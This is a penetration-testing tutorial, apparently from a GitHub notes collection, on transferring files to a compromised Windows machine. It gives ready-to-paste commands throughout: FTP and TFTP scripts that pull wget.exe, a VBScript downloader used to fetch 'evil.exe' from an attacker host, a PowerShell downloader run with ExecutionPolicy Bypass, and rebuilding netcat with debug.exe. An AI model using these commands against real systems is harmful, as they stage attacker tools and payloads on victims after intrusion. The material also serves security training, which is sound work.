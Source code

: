 # Transferring files to windows

Transferring files to linux is usually pretty easy. We can use netcat, wget, curl, which most systems have as default. But windows does not have these tools.



## FTP

Most windows machines have a ftp-client included. But we can't use it interactively since that most  likely would kill our shell. So we have get around that. We can however run commands from a file. So what we want to do is to echo out the commands into a textfile. And then use that as our input to the ftp-client. Let me demonstrate.

On the compromised machine we echo out the following commands into a file

```
echo open 192.168.1.101 21> ftp.txt
echo USER asshat>> ftp.txt
echo mysecretpassword>> ftp.txt
echo bin>> ftp.txt
echo GET wget.exe>> ftp.txt
echo bye>> ftp.txt
```

Then run this command to connect to the ftp

```
ftp –v -n -s:ftp.txt
```

Of course you need to have a ftp-server configured with the user asshat and the password to mysecretpassword.

## TFTP

A TFTP client is installed by default on windows machines up to Windows XP and Windows 2003. What is good about TFTP is that you can use it non-interactivly. Which means less risk of losing your shell.

Kali has a TFTP server build in.
You can server up some files with it like this

```
atftpd --daemon --port 69 /tftp
/etc/init.d/atftpd restart
```

Now you can put stuff in /srf/tftp and it will be served. Remember that TFTP used UDP. So if you run netstat it will not show it as listening. 

You can see it running like this

```
netstat -a -p UDP | grep udp
```

So now you can upload and download whatever from the windows-machine like this

```
tftp -i 192.160.1.101 GET wget.exe
```

## VBScript

Here is a good script to make a wget-clone in VB.

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

```

You then execute the script like this: 
**cscript wget.vbs http://192.168.10.5/evil.exe evil.exe** 

The script works great and I found it at the this guys gist: https://gist.github.com/sckalath/ec7af6a1786e3de6c309


## Powershell

This is how we can download a file using powershell. Remember since we only have a non-interactive shell we can not start powershell.exe, because our shell can't handle that. But it is okay we can still run scripts in powershell.

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://192.168.1.101/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

Now we invoke it with this crazy syntax:
```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```


## Debug.exe

This is a crazy technique that works on windows 32 bit machines. Basically the idea is to use the debug.exe program. It is used to inspect binaries, like a debugger. But it can also rebuild them from hex. So the idea is that we take a binaries, like netcat. And then disassemble it into hex, paste it into a file on the compromised machine, and then assemble it with debug.exe.

Debug.exe can only assemble 64 kb. So we need to use files smaller than that. We can use upx to compress it even more. So let's do that

```
upx -9 nc.exe
```
Now it only weights 29 kb. Perfect.So now let's disassemble it:

```
wine exe2bat.exe nc.exe nc.txt
```

Perfect, now we just copy-past the text into our windows-shell. And it will automatically create a file called nc.exe

